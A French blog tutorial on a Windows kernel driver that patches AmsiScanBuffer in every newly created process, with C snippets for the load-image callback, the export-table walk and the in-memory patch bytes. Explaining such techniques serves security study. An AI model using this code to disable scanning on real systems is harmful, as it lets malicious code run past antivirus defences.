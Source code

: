 # Driver et injection de code

Un driver est un exécutable qui évolue dans le range d'adresse du monde noyau. Il a la possibilité de faire ce qu'il veut (quasiment) sur la machine et peut donc agir sur le contenu situé dans les adresses virtuelles du monde utilisateur. Ci-dessous un schéma issu de la msdn qui présente les communications entre le monde noyau et le monde utilisateur.

![image alt text](/images/driver/kernelland_userland.png)

Tous les drivers partagent le même espace d'adressage virtuel et peuvent communiquer avec le monde utilisateur et modifier les valeurs situées à des RVA utilisateur.

Le driver présenté ici aura pour objectif de surveiller les créations de process. Lorsque l'un d'eux sera protégé par l'__amsi__, le driver mettra en place un patch (une écriture dans l'espace d'adressage virtuel utilisateur) afin de bypasser l'__amsi__.

On a déjà vu un bypass de l'__amsi__ ici: https://shellchocolat.github.io/2020/05/17/bypass-AMSI.html

Ce bypass est fonctionnel mais il est local, ce qui signifie qu'il n'est actif que pour le process en cours. Il faut le mettre en place à chaque création de nouveaux process ce qui n'est pas le plus commode. Le driver présenté se chargera de patcher les process dès leurs création. Ce n'est pas le plus fun que peut faire un driver, mais c'est une bonne preuve de concept quant à leur puissance et permet d'envisager de nombreux scenarii malveillants.

Un driver fonctionne de manière radicalement différente d'un process utilisateur classique dans le sens où celui-ci doit pouvoir repondre aux demandes de tous les process et drivers en cours d'exécution. Un driver doit donc enregistrer des fonctions de callbacks qui seront ensuite exécutées en fonction de divers évènements. Dans le cas présent un évenement sera la création de process qui déclenchera une fonction de callback qui sera alors de patcher la dll __amsi.dll__ chargée en mémoire.

Dans la msdn on ne parle pas de fonction pour le monde noyau, mais de routine. La routine PsSetLoadImageNotifyRoutine() permet de notifier le driver lorsqu'une image (exe, dll) est chargée en memoire. C'est la routine parfaite pour surveiller le chargement de __amsi.dll__ en mémoire. Elle fait notemment partie des routines utilisées par la plupart des EDR/AV pour surveiller les créations de process. Le code ci-dessous permet d'enregistrer la fonction de callback __notifyRoutine()__.

```C
NTSTATUS status = PsSetLoadImageNotifyRoutine(notifyRoutine);
	if (!NT_SUCCESS(status)) {
		KdPrint(("Failed PsSetLoadImageNotifyRoutine (0x%08X)\n", status));
		return status;
	}
```

La fonction __notifyRoutine()__ a le prototype suivant:

```C
void notifyRoutine(_In_ PUNICODE_STRING FullImageName, _In_ HANDLE ProcessId, _In_ PIMAGE_INFO ImageInfo)
```

Ce qui signifie qu'a chaque chargement d'image, le driver récupère le __nom de l'image__, le __PID__ et des infos contenues dans la structure __IMAGE\_INFO__. Ce qui nous intéresse, c'est essentiellement le nom de l'image. Si celui-ci équivaut à __amsi.dll__, on aura du travailler à effectuer sinon rien du tout. Il faut savoir que dans le monde noyau, la plupart des strings sont des __wchar_t__ et donc un char est codé sur 2 bytes. 

La structure __IMAGE\_INFO__ contient notamment un pointeur vers l'adresse de base de l'image, ce qui permettra d'y accèder par la suite.

Le code permettant de vérifier si l'image qui est en cours de chargement est l'__amsi.dll__, on utilise le code suivant:

```C
if (wcsstr(FullImageName->Buffer, L"amsi.dll") != NULL) {
	KdPrint(("AMSI VA ImageBase: 0x%X\n", ImageInfo->ImageBase));

	PVOID pImageBase = ImageInfo->ImageBase;
	if (NT_SUCCESS(ScanModuleFunctions(ProcessId, pImageBase))) {
		KdPrint(("Module scanned\n"));
	}
}
```

Si l'image chargée en mémoire est bien l'__amsi.dll__ alors le driver exécutera la fonction __ScanModuleFunctions()__. Cette fonction est le coeur du driver et prend en paramètre le __PID__ ainsi que l'adresse du module en mémoire. Elle permet de scanner les fonctions du module en question.

Maintenant que l'on est capable de discriminer les images chargées en memoire en fonction de leurs noms (en l'occurence __amsi.dll__), il faut pouvoir en lister les fonctions. En l'occurence, ici il faut pouvoir trouver l'adresse de __AmsiScanBuffer()__ afin de la patcher pour éviter le scan du code malveillant par l'__amsi__.

Il n'existe pas de routine pour trouver les fonctions dans une dll chargée par un process utilisateur. En userland on a le classique __LoadLibrary() / GetProcAddress()__ qui permet de trouver les addresses des fonctions. Dans le monde noyau, il faut agir différemment. Il est nécessaire de connaitre la structure d'un PE pour cela. Ci-dessous est présenté la structure d'une PE.

![image alt text](/images/driver/pe_struct.png)-p

Les premiers bytes sont __5A4D__ équivalent à __MZ__ (situé dansl __e\_magic__) signifiant qu'il s'agit bien d'un PE. Ces bytes sont situées dans la structure __\_IMAGE\_DOS\_HEADER__ qui est présentée ci-dessous:

![image alt text](/images/driver/image_dos_header.png)

L'élement __e\_lfanew__ permet de donner l'adresse de la structure suivante: __\_IMAGE\_NT\_HEADERS64__ présentée ci-dessous:

![image alt text](/images/driver/image_nt_header.png)

Lorsque l'on regarde ce qui se situe dans l'__OptionalHeader__, on y voit la structure __\_IMAGE\_OPTIONAL\_HEADER64__ présentée ci-dessous:

![image alt text](/images/driver/image_optional_header.png)

Contrairement à ce que son nom peu indiquer, elles et très importante car elle permet d'avoir accès au __DataDirectory__ (dernier élement de cette structure). __DataDirectory__ est une liste de __16__ de structures (contenant 2 éléments: __relative virtual address__ et __size__). Si l'on regarde le premier élément de cette liste: 

![image alt text](/images/driver/data_directory.png)

on voit qu'il s'agit de l'__Export Directory__. On a donc enfin trouvé l'adresse de l'__Export Directory__ qui est une structure. Cette structure est présentée ci-dessous:

![image alt text](/images/driver/export_directory.png)

Il est donc possible de connaitre le nombre de fonctions exportées en consultant l'élement __NumberOfFunctions__, puis de connaitre les adresses des fonctions en consultant l'élément __AddressOfFunctions__. On discriminera les fonctions grâce à leurs noms contenus dans l'élément __AddressOfNames__.

Il faut donc faire une boucle sur __0x0D__ (nombre de fonctions exportées) et vérifier les noms de fonctions. Une fois __AmsiScanBuffer()__ trouvée, il faut la patcher. Le code qui permet de boucler sur les fonctions et de patcher et présenté ci-dessous:

```C
for (UINT64 i = 0; i < ExportDirectory.NumberOfNames; i++) {
	function_name = { 0 };

	result = KeReadProcessMemory(&addressOfNamesValue, (PVOID)(addressOfNames + i * 4), sizeof(addressOfNamesValue));

	result = KeReadProcessMemory(&function_name, (PVOID)((UINT64)pImageBase + (UINT64)addressOfNamesValue), sizeof(function_name));

	if (strstr(function_name.Value, "AmsiScanBuffer") != NULL) {
		result = KeReadProcessMemory(&addressOfFunctionsValue, (PVOID)(addressOfFunctions + i * 4), sizeof(addressOfFunctionsValue));

		function_address = (UINT64)pImageBase + (UINT64)addressOfFunctionsValue;

		KAPC_STATE KAPC = { 0 };
		KeStackAttachProcess(pProcess, &KAPC);

		UINT8 patch[] = { 0x31, 0xC0, 0xC3 };
		KeWriteProcessMemory((PVOID)function_address, (PVOID)&patch, sizeof(patch));

		KeUnstackDetachProcess(&KAPC);

		break;
	}
}
```

Le driver en fonctionnement est présente ci-dessous:

![image alt text](/images/driver/poc_1.png)

La première erreur montre que l'__amsi__ est actif car il bloque l'exécution de la chaine de charactères __amsiScanBuffer__. Puis on active le driver sur le __cmd__ à droite, puis on exécute de nouveau le script et on obtient la même erreur ! Cela est dû au fait que le driver surveille les créations de process et non les process déjà crée ! Il faut exécuter un nouveau process pour que celui-ci soit patché comme on peut le voir ci-dessous:

![image alt text](/images/driver/poc_2.png)

Une fois le driver actif, tous les process utilisant l'__amsi__ seront alors patchés.

